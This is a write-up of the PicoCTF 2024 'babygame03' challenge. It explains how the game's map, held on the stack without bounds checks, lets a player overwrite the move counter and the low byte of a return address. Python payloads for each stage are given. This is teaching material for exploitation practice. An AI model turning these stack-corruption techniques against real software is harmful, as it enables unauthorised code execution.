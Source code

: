 # Babygame03

![](./images/PicoCTF2024-Babygame03.png)

This challenge was a continuation of the `babygame02` challenge from last year. With some interesting additions. It was worth `400pts`, and I would rate it a `medium` level challenge compared to the other pwn challenges this year. 

The idea behind this game is that you are able to move around a map, and to finish a level you get to the bottom right of the map.

When we inspect the game with GDB, we see that the entire map is held in memory on the stack. There are also no bounds checks on the top of the map, so you can stomp on memory on the stack.

When we analyze the binary with our favorite disassembler, we can see that there are some fun extra features...
- You can use `l` to change your characters `character`. By doing this you change the representation of the player on the stack memory
- When you move away from a spot, a `.`(`0x2e`) is written to that memory location.
- You can use `p` to have the game "auto solve" the level by moving the player to the end

This version of the game has some additional features that the older challenge did not. 
- You have limited moves.
- There are obstacles that instantly end the game if you run into them.

When we look at the `main` function, I've gone ahead and renamed some variables, defined some structs etc so that it's a bit more readable.

![](./images/babygame03_main.png)

Note, I may have `x` and `y` switched, but you get the idea...

- We see that the instance of the player is kept on the stack, and it holds the number of `moves`, `x` and `y`.
- We win if our player `x` is `0x1d` and `y` is `0x59` and the `level` is not `4`.
- if we manage to get to level `5` (which should be impossible) and our `wins` are equal to `4`, then we break and can call the `win` function.

Not shown here is the `win()` function. It will only print out the flag if the argument passed is equal to `5`

```c
int32_t win(int32_t* arg1)
{
    FILE* fp = fopen("flag.txt", &data_804a091);
    if (fp == 0)
    {
        puts("Please create 'flag.txt' in this…");
        fflush(*(uint32_t*)stdout);
        exit(0);
        /* no return */
    }
    void var_4c;
    fgets(&var_4c, 0x3c, fp);
    int32_t eax_2 = *(uint32_t*)arg1;
    if (eax_2 == 5)
    {
        printf(&var_4c);
        eax_2 = fflush(*(uint32_t*)stdout);
    }
    return eax_2;
}
```

This means we can't just jump to the `win()` function.

The first thing we need to do is get more `moves` we do this by navigating to the stack location storing the moves. We stomp on that memory. And then use the auto-solve to win the level.

```python
for i in range(0,3):
    payload = 'a'*4
    payload += 'w'*3
    payload += 'a'*4
    payload += 'w'*1     # we write 0x2e to the highest byte of lives
    payload += 's'*6
    payload += 'p'       # auto solve the level

    io.sendline(payload)
    data = io.recv(1000000, timeout=1)
```

We do this until we get to level `4`. That one can't be solved by conventional ways.

Now we still modify our moves, and then we change our `character` to `0x70`, and overwrite the lowest byte of the return address on the stack. By setting this to `0x70`, we jump to the code in main that gives us the win on the level. We bypass the check for the final location and `level != 4`.

```python
payload = 'a'*4
payload += 'w'*3
payload += 'a'*4
payload += 'w'*1     #we write 0x2e to the highest byte of lives
payload += 's'*1

payload += 'a'*46
payload += 'a'
payload += 'l\x70'
payload += 'w'*1     #jump to code that skips the level 4 check
io.sendline(payload)
```

Now we are on level 5, but we can't hit the break condition. So we do the same tricks. We give ourselves more moves/lives, then change our character to `\xfe` and adjust our offsets to again overwrite the lowest byte of the return pointer on the stack.

```python
payload = 'a'*4
payload += 'w'*3
payload += 'a'*4
payload += 'w'*1     #we write 0x2e to the highest byte of lives
payload += 's'*1

payload += 'a'*46
payload += 'a'
payload += 'a'*0x10 # we did the other jump, so now we have to adjust
payload += 'l\xfe'  
payload += 'w'
io.sendline(payload)
```

This time we just to the location in main that sets up the correct calling convention to `win()` with our level `5`, and we get the flag printed out.


All in all this was a fun little challenge. You have to understand what is going on in memory, how to get to the offsets you need to modify, and need to know how to change the execution control to have the program do what you want it to.
